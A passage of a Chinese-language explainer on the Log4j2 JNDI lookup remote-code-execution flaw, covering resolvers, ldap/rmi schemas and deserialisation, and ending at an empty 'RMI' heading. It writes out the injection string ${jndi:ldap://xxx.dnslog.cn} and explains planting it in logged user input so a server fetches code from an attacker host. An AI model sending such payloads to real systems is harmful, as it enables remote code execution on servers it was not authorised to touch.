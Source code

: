  Apache log4j2-RCE 漏洞是由于Log4j2提供的lookup功能下的Lookup模块出现问题所导致的，该功能模块在输出日志信息时允许开发人员通过相应的协议去请求远程主机上的资源。而开发人员在处理数据时，并没有对用户输入的信息进行判断，导致Log4j2请求远程主机上的含有恶意代码的资源 并执行其中的代码，从而造成远程代码执行漏洞。

 log4j是一款通用日志记录工具，开发人员可以使用log4j对当前程序状态进行记录。log4j的功能非常强大，开发人员除了直接记录文本外，还可以使用简单表达式记录动态内容，例如：

```
logger.info("system propety: ${sys:user.dir}");
```

`${}`进行包裹，上述示例中，`sys:user.dir`表示使用sys解析器，查找user.dir的内容，即在系统环境变量中查找user.dir，以替换`${sys:user.dir}`进行打印。

 log4j中除了sys解析器外，还有很多其他类型的解析器。其中，jndi解析器就是本次漏洞的源头。

jndi 解析器将通过 jdk 获取 jndi 对象，并使用这个 jndi 对象替换原有文本进行打印。 我们将 jndi 对象理解成为一个从程序外部获取的 Java 程序对象就可以了。jdk中提供了多种不同 jndi 对象的获取方式，获取方式可以称为schema，所以正常的包含jndi的日志记录方式如下：

```
logger.info("system propety: ${jndi:schema://url}");
```

上述schema和url需替换成真实的内容方可生效。

 其中，schema 是查找jndi对象的方式，jdk中支持 `corbname, dns, iiop, iiopname, ldap, ldaps, rmi`几种schema。

 url是几种不同的schema下jndi的路径。不同的schema，url路径的配置方法不同。常用的schame是ldap，其url写法比较简单：`jndi:ldap://xxx.dnslog.cn`

 jdk将从url指定的路径下载一段字节流，并将其反序列化为Java对象，作为jndi返回。反序列化过程中，即会执行字节流中包含的程序。

 因此，如果攻击者能够控制日志打印的内容，就可以使目标服务器从攻击者指定的任意url地址下载代码字节流，攻击者在字节流中附带的代码就会在目标服务器上执行。



 **LDAP（轻型目录访问协议）**：是一个开放的，中立的，工业标准的应用协议，通过IP协议提供访问 控制和维护分布式信息的目录信息。目录是一个为查询、浏览和搜索而优化的专业分布式数据库，它呈 树状结构组织数据，就好象Linux/Unix系统中的文件目录一样。

 **RMI（远程方法调用）**：它是一种机制，能够让在某个java虚拟机上的对象调用另一个Java虚拟机 的对象的方法。



##### 攻击者如何控制服务器上记录的日志内容呢？

 大部分web服务程序都会对用户输入进行日志记录。例如：用户访问了哪些url，有哪些关键的输入等，都会被作为参数送到log4j中，我们在这些地方写上`${jndi:ldap://xxx.dnslog.cn}`就可以使web服务从`xxx.dnslog.cn`下载字节流了。



#### 触发过程

##### RMI
